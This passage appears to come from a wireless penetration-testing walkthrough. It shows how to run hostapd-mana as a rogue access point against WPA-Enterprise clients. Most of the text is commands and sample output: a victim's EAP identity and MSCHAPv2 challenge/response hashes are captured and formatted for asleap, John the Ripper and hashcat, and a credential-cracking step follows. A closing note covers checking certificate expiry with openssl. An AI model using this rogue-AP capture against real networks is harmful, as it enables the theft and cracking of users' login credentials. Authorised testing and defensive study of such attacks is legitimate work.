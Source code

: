 ###### Run hostapd-mana:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

Example output for successful capture:
```
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: authenticated
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 00:2b:bb:b0:42:9e
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: cosmo
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: cosmo
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
```

##### Step 5: Cracking the captured credentials:
From the above output, we can see that different hashes are provided for different methods:
```
...
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
```
- asleap, john & hashcat.



### MISC
---
To check the validity of existing certificates, use:
```
openssl x509 -in <CERT_FILENAME> -noout -enddate
```
- The certificate should be ending with `.pem` or `.crt`.

